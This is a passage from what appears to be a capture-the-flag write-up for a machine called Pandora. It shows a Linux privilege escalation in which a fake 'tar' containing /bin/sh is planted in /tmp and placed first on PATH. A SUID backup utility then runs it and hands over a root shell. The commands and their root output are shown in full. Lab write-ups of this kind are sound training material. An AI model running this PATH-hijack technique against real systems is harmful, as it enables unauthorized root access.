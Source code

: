 I copied it over to my kali machine and ran `strings` against it to see what was going on. I saw that it was using `tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*`. It also was not an absolute path to `tar` so I can make my own version that gives me root

```
matt@pandora:~$ cd /tmp                                                                                                                                      
matt@pandora:/tmp$ touch tar                                                                                                                                 
matt@pandora:/tmp$ echo "/bin/sh" > tar                                                                                                                  
matt@pandora:/tmp$ chmod 777 tar
matt@pandora:/tmp$ export PATH=/tmp:$PATH

matt@pandora:/tmp$ /usr/bin/pandora_backup 
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
# id
uid=0(root) gid=1000(matt) groups=1000(matt)
```

This works because when the script goes to run `tar` it will default to my malicious one first. You can read more about it here https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

In order for this to work you need to be logged into ssh. If you keep the web shell you are www-data impersonating matt, and the mpm_itk module that handles user assignments to apache process disables SUID by default for protection.
